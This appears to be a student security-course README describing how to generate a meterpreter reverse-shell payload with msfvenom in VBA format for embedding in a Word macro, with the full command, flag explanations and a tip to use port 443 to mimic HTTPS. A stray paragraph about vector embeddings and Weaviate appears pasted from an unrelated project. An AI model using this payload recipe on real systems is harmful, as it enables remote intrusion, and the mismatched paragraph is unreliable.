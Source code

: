 # IT 359 Project
This project demonstrates how a reverse shell payload can be created using msfvenom and embedded into a Microsoft Word macro as a proof-of-concept for educational and defensive security purposes. The objective is to simulate a common attack technique used by threat actors to gain unauthorized access to a target system, with the ultimate goal of understanding how such threats operate, how to identify them, and how to effectively defend against them.   

By following the steps outlined in this project, readers will gain insight into:  
  
How attackers craft and deliver malicious payloads using social engineering.  
How Microsoft Office macros can be exploited for code execution.  
Techniques for detecting and mitigating macro-based malware threats in enterprise environments.   
Data (like text from Magic cards) is transformed into these vectors using a process involving tokenization (splitting text into smaller units) and embedding (converting tokens into numerical representations using pre-trained models)    
When you query, the same vectorization process is applied to your query, and the resulting query vector is compared to the vectors in the database to find the most similar ones.      
Technologies used will include Weaviate(built in AI and machine learning integration), OpenAI, python, node.js and next.js    

# Day One: Topic 
After adding Ben to the group a little later into the semester, I opened up the Idea to doing a project that was little more realistic for our group to complete. I really just used AI and the project prompt to get some suggestions. Ultimately went with the subject explained above. Also used AI to create an outline of each members responsibilities by giving it our topic, timeline and number of memebers.
- Looking back, it was great for a start, but we should have revised it to be a little more compatible with our group.  

# MSFVenom Payload  
AI suggested using MSFVenom to create the payload and after looking into it, I realized that it was implemented in metasploite which we have experience with and acess to on our proxmox VMs. 
This was the main website I used to research the flags and how to use them(reading the instruction in the terminal is a bit of a headache for me) https://www.offsec.com/metasploit-unleashed/msfvenom/  
Ultimately the command I came up with was msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=<your_port> -f vba.  
#### -p
- the flag to start creating a payload
- "windows" to target a windows machine(any of the promox machines in our case)  
- "meterpreter" is the interactive shell component
- "reverse_tcp" makes the victim reach out to our attacking machine
#### LHOST will be our attacking machines IP(kali linux proxmox vm)
#### LPORT will be the port we have our listener setup on
- Can use 4444 which is the metasploit default
- Another option is 443 if we want to be sneaky and make it look like HTTPS traffic  
#### -f VBA
- f = format of the output
- vba = visual basic for applications format

